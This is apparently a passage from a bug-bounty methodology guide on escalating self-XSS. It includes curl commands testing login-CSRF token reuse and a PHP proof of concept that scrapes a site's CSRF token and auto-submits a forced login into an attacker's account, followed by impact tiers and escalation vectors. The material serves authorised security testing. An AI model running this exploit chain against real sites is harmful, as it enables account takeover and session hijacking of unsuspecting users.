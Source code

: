 **Step 4: Escalate via Login CSRF**
```bash
# Check login CSRF protection
curl [LOGIN_PAGE] | grep -i "csrf"
# Test token reuse from different session
curl -X POST [LOGIN_ENDPOINT] -d "username=attacker&password=pass&csrf_token=[REUSED_TOKEN]"
```

**Step 5: Chain Exploitation**
```php
<?php
// PoC: Auto-login victim to attacker account
$html = file_get_contents('https://target.com/login');
preg_match('/name=\"csrf_token\" value=\"(.*?)\"/', $html, $match);
if(count($match)){
    $token = $match[1];
    echo '<form name="loginForm" target="_blank" action="https://target.com/login" method="post">
    <input type="hidden" name="username" value="attacker_account">
    <input type="hidden" name="password" value="attacker_pass">
    <input type="hidden" name="csrf_token" value="'.$token.'">
    <input type="hidden" name="remember_me" value="1">
    </form>
    <script>document.forms.loginForm.submit();</script>';
}
?>
```

## What Is The Impact

**Critical (High Bounty):**
- Stored XSS executing on victim browsers
- Account takeover via forced login + XSS
- Session hijacking through malicious JavaScript

**Medium (Moderate Bounty):**
- Self-XSS with limited escalation paths
- CSRF allowing forced login only

**Low (Limited Impact):**
- Self-XSS with no escalation vector
- WAF blocking all meaningful payloads

### Escalation Chain Indicators:
- Self-XSS + Login CSRF = **CRITICAL**
- Self-XSS + WAF bypass = **HIGH**
- Isolated self-XSS = **LOW/REJECTED**

### Key Escalation Vectors:
1. **Login CSRF**: Force victim login to attacker account
2. **Password Reset**: XSS in reset forms affecting other users  
3. **Admin Panel**: Self-XSS visible to administrators
4. **Shared Accounts**: Corporate/team account scenarios
5. **Social Engineering**: Trick users into specific actions
